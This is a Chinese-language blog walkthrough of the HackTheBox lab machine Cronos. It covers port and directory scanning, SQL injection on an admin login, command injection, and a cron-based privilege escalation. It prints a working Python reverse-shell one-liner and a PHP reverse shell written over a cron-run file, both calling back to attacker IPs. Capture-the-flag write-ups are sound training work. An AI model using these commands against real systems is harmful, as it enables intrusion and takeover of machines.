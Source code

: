 ```yaml
---
title: Crons
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_7.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# cronos

- **Cronos是hackthebox的一台中等难度的靶机**

- 按例nmap扫描端口和漏洞

![image-20211014021033596](http://cdn.mxrblog.cn/image-20211014021033596.png)

- nmap没扫出什么有价值的漏洞

![image-20211014021207296](http://cdn.mxrblog.cn/image-20211014021207296.png)

- 打开浏览器查看开放的内容，没啥有用的

![image-20211014021947859](http://cdn.mxrblog.cn/image-20211014021947859.png)

- gobuster目录扫描，也没什么意思

![image-20211014021418084](http://cdn.mxrblog.cn/image-20211014021418084.png)

- 在host文件中添加以下内容  (别问，问就是猜的)

`10.10.10.13   cronos.htb`

![image-20211015114349504](http://cdn.mxrblog.cn/image-20211015114349504.png)

- 查看能否登录这个域名

![image-20211015114537540](http://cdn.mxrblog.cn/image-20211015114537540.png)

- dirsearch走起

![image-20211015115004925](http://cdn.mxrblog.cn/image-20211015115004925.png)

- 这个域名没没有什么有用的东西，使用`host -l`查看是否还有其他域名

![image-20211015120436721](http://cdn.mxrblog.cn/image-20211015120436721.png)

- 将这些域名添加到host文件中

![image-20211015120632914](http://cdn.mxrblog.cn/image-20211015120632914.png)

- 这些域名分别登录后发现 admin.cronos.htb 这个域名内可以进行sql注入

![image-20211015120849405](http://cdn.mxrblog.cn/image-20211015120849405.png)

- 使用sql登录后查看

![image-20211015121343287](http://cdn.mxrblog.cn/image-20211015121343287.png)

- 输入框里面内容为： `8.8.8.8&ls`

![image-20211015121555225](http://cdn.mxrblog.cn/image-20211015121555225.png)

- 说明我们可以在输入框中发送一个反弹shell

- 使用python反弹shell，kali使用nc监听4443端口

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20211015122952627](http://cdn.mxrblog.cn/image-20211015122952627.png)

- 获取一个交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20211015123119595](http://cdn.mxrblog.cn/image-20211015123119595.png)

- 获得user.txt

![image-20211015123327093](http://cdn.mxrblog.cn/image-20211015123327093.png)

- 使用提权工具linpeas.sh查看是否有可提权的文件存在

![image-20211015182856693](http://cdn.mxrblog.cn/image-20211015182856693.png)

- 发现定时执行的文件

![image-20211015184728900](http://cdn.mxrblog.cn/image-20211015184728900.png)

- 如果我们检查 /var/www/laravel/artisan 文件，我们会看到我们拥有它并且可以修改它！我们可以替换或附加 php 代码到这个文件来触发一个 root shell

![image-20211016004054448](http://cdn.mxrblog.cn/image-20211016004054448.png)

- 我们将用一个简单的一行 PHP 脚本替换该文件，以便在端口 9999 上向我们发送一个反向 shell，如下所示。之后，我们设置一个 netcat 侦听器并等待我们的 root shell 到达

```
echo '<?php $sock=fsockopen("10.10.14.4",9999);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

![image-20211016004910449](http://cdn.mxrblog.cn/image-20211016004910449.png)

![image-20211016005231886](http://cdn.mxrblog.cn/image-20211016005231886.png)

![image-20211016005328866](http://cdn.mxrblog.cn/image-20211016005328866.png)
